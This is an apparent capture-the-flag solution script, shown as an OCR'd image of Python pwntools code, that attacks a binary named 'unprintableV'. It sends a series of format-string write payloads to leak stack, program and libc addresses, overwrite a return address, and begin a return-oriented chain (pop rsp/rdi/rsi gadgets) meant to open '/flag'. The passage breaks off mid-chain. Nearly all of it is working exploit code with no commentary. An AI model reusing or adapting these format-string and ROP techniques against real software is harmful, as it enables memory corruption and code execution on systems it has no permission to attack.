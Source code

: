 ```python
		p = remote(host,port)
	else:
		p = process("./unprintableV")
		# p = process("./pwn",env={"LD_PRELOAD":"./x64_libc.so.6"})
		# gdb.attach(p)
		debug(0x000000000000A20)
	p.recvuntil("gift: ")
	stack = int(p.recvuntil('\n',drop=True),16)
	info("stack : " + hex(stack))
	p.recvuntil("printf test!")
	
	payload = "%{}c%6$hhn".format(stack&0xff)
	p.send(payload)
	pause()
	payload = "%{}c%10$hhn".format(0x20)
	p.send(payload)
	pause()
	
	payload = "%{}c%9$hn".format(0x1680)
	p.send(payload)
	pause()
	payload = "+%p-%3$p*"
	p.send(payload.ljust(0x12c,"\x00"))
	
	p.recvuntil('+')
	elf_base = int(p.recvuntil('-',drop=True),16)+0x10
	info("elf : " + hex(elf_base))
	libc.address = int(p.recvuntil('*',drop=True),16)-0x110081
	success('libc : '+hex(libc.address))
	pause()
	ret_addr = stack-0x20
	payload = "%{}c%12$hn".format((stack-0x18)&0xffff)
	p.send(payload.ljust(0x12c,"\x00"))
	
	# offset = 43
	payload = "%{}c%43$hn".format((elf_base)&0xffff)
	p.send(payload.ljust(0x12c,"\x00"))
	
	payload = "%{}c%12$hn".format((stack-0x18+2)&0xffff)
	p.send(payload.ljust(0x12c,"\x00"))
	
	# offset = 43
	payload = "%{}c%43$hn".format((elf_base>>16)&0xffff)
	p.send(payload.ljust(0x12c,"\x00"))
	
	payload = "%{}c%12$hn".format((stack-0x18+4)&0xffff)
	p.send(payload.ljust(0x12c,"\x00"))

	# offset = 43
	payload = "%{}c%43$hn".format((elf_base>>32)&0xffff)
	p.send(payload.ljust(0x12c,"\x00"))
	
	payload = "%{}c%12$hn".format(ret_addr&0xffff)
	p.send(payload.ljust(0x12c,"\x00"))
	# 0x0000000000000bbd : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
	payload = "%{}c%43$hn".format((elf_base-0x202070+0xbbd)&0xffff)
	payload = payload.ljust(0x20,"\x00")
	payload += "/flag"+'\x00'*3
	# 0x00000000000a17e0: pop rdi; ret;
	# 0x0000000000023e6a: pop rsi; ret; 
	# 0x00000000001306d9: pop rdx; pop rsi; ret;
	p_rdi = libc.address+0x00000000000a17e0
	p_rsi = libc.address+0x0000000000023e6a
```